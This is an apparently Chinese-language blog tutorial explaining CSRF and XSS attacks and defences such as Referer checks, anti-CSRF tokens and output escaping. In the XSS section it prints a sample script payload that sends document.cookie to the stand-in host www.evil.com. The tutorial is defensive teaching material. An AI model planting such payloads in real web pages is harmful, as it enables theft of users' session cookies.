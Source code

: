 ```yaml
---
title: CSRF与XSS
date: 2018-08-21
tags: 网络安全
---
```


CSRF与XSS都为跨站式的请求攻击容易让人混淆，本文将对这两种攻击及对应防范方法进行梳理。

<!-- more -->

### CSRF(Cross-Site Request Forgery)跨站请求伪造

攻击者盗用了用户的身份以用户的名义进行恶意请求，如发送邮件、银行转账等。

如用户A在example网站上进行转账，通过http://example.com/withdraw?user=A&amount=100进行转账请求并携带存储在浏览器的相关验证信息如cookie，服务器通过对cookie的验证确认用户信息完成转账。

若A在保持example网站登录时访问了恶意网站，并被引诱点击链接http://example.com/withdraw?user=A&amount=100，因浏览器关于此网站的相关验证信息还没过期，该请求也携带相关验证信息对服务器进行请求，服务器通过对验证信息的确认认为用户身份没有问题也完成转账。

由此攻击者利用服务器对浏览器的信任成功盗用用户A的身份进行银行转账。

#### 防御

#####1.使用HTTP头部REFERER

请求头中的REFERER字段记录了请求来源的地址，在处理敏感信息时一般将请求地址与Referer字段处于同一域名下，服务器可以通过对REFERER值判断该请求是否正常。从恶意网站中被引诱点击的请求REFERER值为该恶意网站，由此服务器可以拒绝此请求。
此方式简单易用，仅需要在服务器判断REFERER字段值即可。然而虽然http协议规定了不可对REFERER字段进行修改，实际上并不能保证浏览器的具体实现，有些低级浏览器的安全漏洞也使得攻击者对REFERER字段进行修改。

#####2. 使用验证码

验证码强制用户必须参与请求交互，通常情况下可以很好防止CSRF攻击。但出于用户体验的考虑，一个网站并不可能每个请求都需要用户输入验证码。此方法只能作为协助手段，并不能通用解决CSRF问题。

#####3. 使用Anti CSRF Token验证

CSRF攻击者利用了存储在浏览器的验证信息通过服务器验证，其实只要验证信息不直接存储在浏览器中即可防范。
服务器可以使用cookie或Session携带验证信息的token，但直接使用cookie或Session进行请求并不能通过服务器验证，而是需要客户端获取cookie或Session中token信息并在请求头设置验证字段发送请求。
浏览器的同源策略使得处于不同域名下的恶意网站并不能获取分析浏览器中的cookie或Session信息，从而不能设置具体的请求验证字段通过服务器验证。
此方法最为常用。

### XSS（Cross-site scripting)跨站脚本

攻击者利用网页开始时留下的漏洞，通过巧妙的方法往网页中注入恶意代码，使用户加载和执行这些恶意代码从而达到网页攻击的作用，如修改网页内容，盗取网站cookie或会话信息等。

如一个网站上有留言板，将用户输入信息显示出来，若不对输入信息进行处理，攻击者便有机会往留言板写入恶意js代码进行攻击。
正常用户往留言板留言：
```
Nice!
```
留言板的HTML代码将为：
```
//  这是一个正常显示的留言板
<div> 
    Nice
</div>
```
恶意攻击者往留言板留言：
```
<script>alert('you are attacked!');</script>
```
留言板的HTML代码将为：
```
//  这是一个被攻击的留言板
<div> 
    <script>alert('you are attacked!');</script>   
</div> 
```
其中的js代码将会执行，浏览器弹出对话框显示you are attacked!。这只是弹出对话框吓一下你，然而当攻击者通过留言获取网站的cookie信息就危险了：
```
<script>window.open(www.evil.com?content=document.cookie);</script>
```
www.evil.com 便可得到用户在该网站的cookie信息了。

#### 防御

#####对输入值进行转义

其实本质就是不相信任何用户输入，不能将用户输入直接写到HMLT DOM结果里。若网站开发者将留言板的输入信息过滤掉<scirpt></sciprt>这个HTML元素，其中的JS代码将不会被浏览器解析危害用户了。开发者可使用以下[规则](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)对输入值进行转义：

| 转义类型 | 转义方式 |
| ------- | ------ |
| HTML实体转义 | & -> &amp; <br> < -> &lt; <br> > -> &gt; <br> " -> &quot; <br> ' -> &#27; <br> / -> &#x2F; |
| HTML属性编码 | 除了字母，转换所有字符为&#xHH;形式，包括空格（HH = Hex数值）    |
| URL编码     | URL编码应该只用于参数部分，而不是整个URL或URL路径部分。<br> 标准的编码可参考 http://www.w3schools.com/tags/ref_urlencode.asp    |
| JavaScript编码  | 除了字母，转换所有字符为\uXXXX的unicode转义形式（X=整数）     |
| CSS Hex编码   |  CSS转义支持\XX和\XXXXXX的形式。如果下一个字符会继续转义序列，那使用两个字符的转义形式可能会出现问题。<br> 有两种解决办法（a）在CSS转义后添加一个空格（会被CSS解析器忽略）（b）使用0填充以实现完整的CSS转义格式。 |

如用户输入内容是：
```
<script>alert('attacked!');</script>
```
转义后的字符串是：
```
&lt;script&gt;alert(&quot;attacked!&quot;)&lt;/script&gt;
```

浏览器遇到<script></script>字符串会对其进行JS代码解析，但遇到&lt;&gt;这样的字符就不会当做JS代码执行而仅作为普通字符串打印，由此可以防范代码注入。
当今的主流前端框架如[Angular](https://angular.cn/guide/security)等已支持对输入值的无公害处理以防范XSS，使用这些框架我们则不需要自己对输入信息进行转义。

### 总结
可以说XSS 利用的是用户对指定网站的信任; CSRF 利用的是网站对用户网页浏览器的信任。
使用对应的手段可以防御一定的网络攻击，但作为开发者，我们也只能尽可能提高网络攻击的难度，没有一定安全的网络。只有进一步提高攻击者的门槛使得网络逼近绝对安全的位置。